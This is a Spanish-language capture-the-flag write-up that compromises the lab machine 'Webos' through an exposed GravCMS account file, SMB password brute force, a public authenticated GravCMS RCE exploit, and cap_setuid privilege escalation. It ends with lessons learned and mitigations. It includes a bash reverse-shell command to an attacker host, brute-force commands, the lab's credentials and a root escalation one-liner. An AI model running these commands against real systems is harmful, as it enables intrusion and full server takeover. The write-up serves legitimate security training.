### Información General

| Campo                 | Detalle           |
| --------------------- | ----------------- |
| **Nombre**            | Webos             |
| **Plataforma**        | TheHackersLabs    |
| **Dificultad**        | Fácil             |
| **OS**                | Linux (Debian 12) |
| **IP objetivo**       | 192.168.241.189   |
| **Fecha**             | 19/09/2026        |
| **Autor del writeup** | elc0ket           |

---

### Resumen del Ataque

Máquina Linux con superficie de ataque combinada: web (GravCMS) y SMB (Samba). El reconocimiento inicial descubre dos vías paralelas para obtener credenciales: un fichero `admin.yaml` accesible sin autenticación que expone un hash bcrypt, y un share SMB con credenciales débiles que contiene un fichero con código Brainfuck ocultando la contraseña en texto plano. Esta segunda vía resulta más directa. Con las credenciales de administrador se accede al panel de GravCMS (v1.7.44), vulnerable a ejecución remota de código autenticada. Una vez dentro del sistema como `www-data`, se detecta un binario `python3` en el home del usuario con la capability `cap_setuid`, lo que permite escalar directamente a root.

---

### Técnicas Usadas

- Escaneo de puertos y fingerprinting con Nmap
- Resolución de virtual host
- Enumeración de rutas sensibles en web (robots.txt → `user/accounts/admin.yaml`)
- Enumeración y fuerza bruta SMB con `crackmapexec`
- Extracción y decodificación de código Brainfuck (dcode.fr)
- Explotación autenticada de GravCMS 1.7.44 (RCE)
- Estabilización de shell interactiva (`script`, `stty`)
- Escalada de privilegios vía Linux Capabilities (`cap_setuid` en Python 3)

---

### Desarrollo

**1. Reconocimiento — Escaneo de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.189
```



Superficie de ataque más amplia que la habitual: SSH, HTTP y Samba. Se lanza escaneo de versiones y scripts por defecto:

```
nmap -p 22,80,139,445 -sC -sV -oN allports 192.168.241.189
```



Nmap identifica el CMS como **GravCMS**, revela el virtual host `webos.thl` en el título y lista 13 rutas prohibidas en `robots.txt`. Se añade la entrada al `/etc/hosts`.

```
http://webos.thl/
````



**2. Reconocimiento web — admin.yaml expuesto**

```
http://webos.thl/robots.txt
```



Entre las rutas listadas, la entrada `Allow: /user/` invita a explorar el directorio de usuarios de Grav. La ruta de cuentas por defecto de GravCMS es `/user/accounts/`:

```
http://webos.thl/user/accounts/admin.yaml
```



El fichero es accesible sin autenticación y expone el hash bcrypt del administrador. Se intenta crackear, pero el hash bcrypt con coste `$2y$10$` es computacionalmente costoso y no cae con `rockyou.txt` en tiempo razonable. Se descarta esta vía temporalmente y se investiga el SMB.

**3. Enumeración SMB — Share con fichero Brainfuck**

Prueba de acceso anónimo para enumerar shares:

```
crackmapexec smb 192.168.241.189 -u guest -p '' --shares
```



Existe un share llamado `webos` pero sin permisos de lectura como guest. Se prueba fuerza bruta con el usuario `webos` (inferido del nombre del share y del hostname):

```bash
crackmapexec smb 192.168.241.189 -u 'webos' -p /usr/share/wordlists/rockyou.txt
```



Con las credenciales obtenidas, se lista el contenido del share:

```
smbmap -H 192.168.241.189 -u 'webos' -p 'geraldine' -r 'webos'
```



Se descarga el fichero:

```
smbmap -H 192.168.241.189 -u 'webos' -p 'geraldine' --download 'webos/MamaÑema.txt'
```

```
cat 192.168.241.189-webos_MamaÑema.txt                  
```



Es código **Brainfuck**. Se decodifica en [dcode.fr](https://www.dcode.fr):



```
admin:Perico69*****
```

**4. Acceso al panel de GravCMS — Login y panel de administración**

Con las credenciales obtenidas se accede a la interfaz principal de GravCMS:

```
http://webos.thl/
```





Login exitoso. Se confirma acceso al área de usuario. Gobuster identifica el panel de administración:

```
gobuster dir -u http://webos.thl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 125 --no-error
```



```
http://webos.thl/admin.html
```

Login con `admin:Perico69*****`. Acceso al panel de administración de Grav confirmado. Se identifica la versión:






**5. Explotación — RCE autenticado en GravCMS 1.7.44**

GravCMS 1.7.44 es vulnerable a ejecución remota de código en el panel de administración autenticado. Se utiliza el exploit público:

```
https://github.com/gunzf0x/Grav-CMS-RCE-Authenticated
```

```
git clone https://github.com/gunzf0x/Grav-CMS-RCE-Authenticated.git 
cd Grav-CMS-RCE-Authenticated/
``` 

Se abre el listener:

```
nc -lvnp 1234
```

Se lanza el exploit con una reverse shell bash:

```
python3 Grav_CMS_RCE.py -t http://webos.thl/admin -u 'admin' -p 'Perico69*****' -x 'bash -c "bash -i >& /dev/tcp/192.168.241.128/1234 0>&1"'
```



Shell obtenida como `www-data`. Se estabiliza la TTY:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@TheHackersLabs-Webos:/var/www/html$ whoami
```



```
www-data@TheHackersLabs-Webos:/var$ cd /home
```

```
www-data@TheHackersLabs-Webos:/home/webos$ ls -la
```



Un binario `python3` en el home del usuario, propiedad de root. Se buscan capabilities:

```
www-data@TheHackersLabs-Webos:/home/webos$ getcap -r / 2>/dev/null
```



El binario `/home/webos/python3` tiene `cap_setuid=ep`, lo que permite establecer el UID del proceso a 0 sin necesidad de ser root. Se explota directamente:

```
www-data@TheHackersLabs-Webos:/home/webos$ /home/webos/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```
root@TheHackersLabs-Webos:/home/webos# whoami
```



**7. Flags**

```
root@TheHackersLabs-Webos:/home/webos# cat user.txt 
```



```
root@TheHackersLabs-Webos:/home/webos# cd /root
root@TheHackersLabs-Webos:/root# cat root.txt 
```



---
### Lecciones Aprendidas

1. **Ficheros de configuración de CMS accesibles sin autenticación:** GravCMS almacena las cuentas de usuario en `/user/accounts/*.yaml` como ficheros planos. Si el servidor permite su acceso directo vía HTTP (algo que `robots.txt` paradójicamente anunciaba), se expone el hash de la contraseña del administrador. En este caso el hash bcrypt resistió el cracking, pero la información del email, nombre y secret de 2FA también estaba expuesta.
2. **SMB como fuente de credenciales olvidada:** En entornos CTF con SMB activo, es habitual encontrar ficheros con información sensible en shares mal protegidos. Aquí la fuerza bruta con un usuario inferido del nombre del share (webos:geraldine) fue trivial.
3. **Brainfuck como mecanismo de ofuscación débil:** El código Brainfuck en `MamaÑema.txt` es identificable a simple vista y decodificable en segundos con herramientas como dcode.fr. No aporta ninguna seguridad real; solo añade un paso de reconocimiento que cualquier analista resuelve sin dificultad.
4. **RCE autenticado en CMS desactualizado:** GravCMS 1.7.44 dispone de exploits públicos documentados. Mantener versiones antiguas de CMS en producción, aunque estén protegidas por login, es un riesgo directo de compromiso total del servidor.
5. **Linux Capabilities como vector de escalada frecuentemente ignorado:** `cap_setuid` en un binario de Python es un vector de escalada inmediato y silencioso. A diferencia de los SUID, las capabilities no siempre aparecen en las primeras herramientas de enumeración manuales; `getcap -r /` debe ser parte de cualquier checklist post-acceso.

---

### Medidas de Mitigación

1. **/user/accounts/admin.yaml accesible públicamente**
   Configurar Apache para denegar el acceso directo a `/user/` mediante directivas `<Directory>` con `Require all denied`. Los ficheros de configuración de Grav nunca deben ser servibles por el webserver.

2. **Share SMB con credenciales débiles**
   Política de contraseñas robustas. Revisar permisos de acceso a shares: eliminar acceso anónimo y auditar usuarios con acceso de lectura.

3. **Credenciales en texto plano (Brainfuck)**
   Nunca almacenar credenciales en ficheros accesibles en shares de red, independientemente del nivel de ofuscación.

4. **GravCMS 1.7.44 con RCE autenticado conocido**
   Actualizar GravCMS a la última versión estable. Revisar el registro de CVEs del CMS instalado antes de desplegarlo.

5. **cap_setuid=ep en python3 del directorio home**
   Auditar periódicamente las capabilities asignadas a binarios (`getcap -r / 2>/dev/null`). Eliminar capabilities innecesarias. Un intérprete de Python con `cap_setuid` es equivalente a un SUID root.


